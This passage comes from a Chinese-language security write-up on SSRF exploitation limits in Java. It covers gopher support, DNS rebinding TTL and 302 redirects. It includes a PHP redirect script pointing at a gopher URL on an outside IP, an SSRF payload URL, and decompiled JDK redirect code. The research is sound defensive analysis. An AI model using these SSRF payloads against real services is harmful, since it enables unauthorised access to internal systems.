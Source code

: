 低版本的JDK1.7是支持gopher协议的

### DNS Rebinding限制

Java应用的默认TTL为10s，这个默认配置会导致DNS Rebinding绕过失败。也就是说，默认情况下，Java应用不受DNS Rebinding影响。

### 302跳转限制

java默认会URL重定向。

```java
<?php
$url = 'gopher://35.185.163.134:2333/_joy%0achou';
header("location: $url");
?>
```

访问payload

```java
http://localhost:8080/download?url=http://joychou.me/302.php
```

收到异常：

```java
java.net.MalformedURLException: unknown protocol: gopher
```

跟踪报错代码：

```java
private boolean followRedirect() throws IOException {
        if(!this.getInstanceFollowRedirects()) {
            return false;
        } else {
            final int var1 = this.getResponseCode();
            if(var1 >= 300 && var1 <= 307 && var1 != 306 && var1 != 304) {
                final String var2 = this.getHeaderField("Location");
                if(var2 == null) {
                    return false;
                } else {
                    URL var3;
                    try {
                        // 该行代码发生异常，var2变量值为`gopher://35.185.163.134:2333/_joy%0achou`
                        var3 = new URL(var2);
                        /* 该行代码，表示传入的协议必须和重定向的协议一致
                         * 即http://joychou.me/302.php的协议必须和gopher://35.185.163.134:2333/_joy%0achou一致
                         */
                        if(!this.url.getProtocol().equalsIgnoreCase(var3.getProtocol())) {
                            return false;
                        }
                    } catch (MalformedURLException var8) {
                        var3 = new URL(this.url, var2);
                    }
```
